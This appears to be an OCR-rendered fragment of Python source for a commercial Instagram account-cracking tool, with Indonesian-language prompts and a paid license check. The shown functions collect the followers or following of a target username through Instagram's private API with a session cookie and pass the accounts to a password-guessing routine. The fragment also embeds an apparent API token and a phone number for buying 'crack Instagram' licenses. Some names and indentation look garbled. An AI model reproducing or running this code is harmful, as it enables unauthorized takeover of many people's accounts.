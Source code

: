 def meng(self):
		menudump.append('mengikuti')
		prints(Panel(f"{P2}pastikan username target yang di pilih bersifat publik dan jangan private",width=80,style=f"#FFFFFF"))
		nama=input(f'{P}[{B}?{P}] masukan username : {H}')
		id=self.idAPI(self.cookie,nama)
		info=self.ifoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/following/?count=100000',id)
		self.passwordAPI(info)

def masal(self):
			try:
				menudump.append('pengikut')
				prints(Panel(f"{P2}pastikan username target yang di pilih bersifat publik dan jangan private",width=80,style=f"#FFFFFF"))
				m=int(input(f'{P}[{B}?{P}] masukan jumlah target : {H}'))
			except:m=1
			for t in range(m):
				t +=1
				nama=input(f'{P}[{B}?{P}] masukan username : {H}')
				id=self.idAPI(self.cookie,nama)
				info=self.infoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/followers/?count=100000',id)
			self.passwordAPI(info)

def massal(self):
			menudump.append('pengikut')
			prints(Panel(f"{P2}pastikan username target yang di pilih bersifat publik dan jangan private",width=80,style=f"#FFFFFF"))
			m=input(f'{P}[{B}?{P}] masukan username : {H}')
			id=self.idAPI(self.cookie,m)
			info=self.infoAPI(self.cookie,'https://i.instagram.com/api/v1/friendships/%s/followers/?count=100000',id)
			self.passwordAPI(info)

day=datetime.now().strftime("%d-%b-%Y")
nyMnD = 5
nyMxD = 10
current_GMT = time.gmtime(time.time())

def key():
	os.system("clear");banner();key = input(f" {K}#{P} masukan lisensi : {H}")
	try:ses = requests.Session();asu = ses.get("https://app.cryptolens.io/api/key/Activate?token===&ProductId=17890&Key=%s&Sign=True"%(key)).json()['licenseKey']['key'];open("data/lisensi.txt","w").write(key);prints(Panel(f"{P2}selamat lisensi yang anda masukan terdaftar ke server Insta Nazri XD",width=80,padding=(0,6),style=f"{color_table}"));time.sleep(4);ggwp17()
	except KeyError:
		prints(Panel(f"{P2}lisensi kamu sudah kedaluwarsa silahkan beli lisensi ke admin",width=80,padding=(0,6),style=f"{color_table}"));os.system("rm -rf data/lisensi.txt");os.system("xdg-open https://wa.me/+62895411181878?text=assalamualaikum+bang+mau+beli+lisensi+crack+Instagram");time.sleep(2);exit()

###----------[ CEK LISENSI ]---------- ###
def cek():
	try:x=open("data/lisensi.txt","r").read()
	except FileNotFoundError:key()
	try:x = requests.get("https://app.cryptolens.io/api/key/Activate?token=WyIzMjA4OTAxMyIsInRqSVB5U1dJQkFVdU1yMmFGVGk5eW5ZbnpuOWlmS3FHVjVMdG1Yb1EiXQ==&ProductId=17890&Key=%s"%(x)).json()['licenseKey']['key'];ggwp17()
	except KeyError:
		prints(Panel(f"{P2}lisensi kamu sudah kedaluwarsa silahkan beli lisensi ke admin",width=80,padding=(0,6),style=f"{color_table}"));os.system("rm -rf data/lisensi.txt");os.system("xdg-open https://wa.me/+62895411181878?text=assalamualaikum+bang+mau+beli+lisensi+crack+Instagram");time.sleep(2);exit()
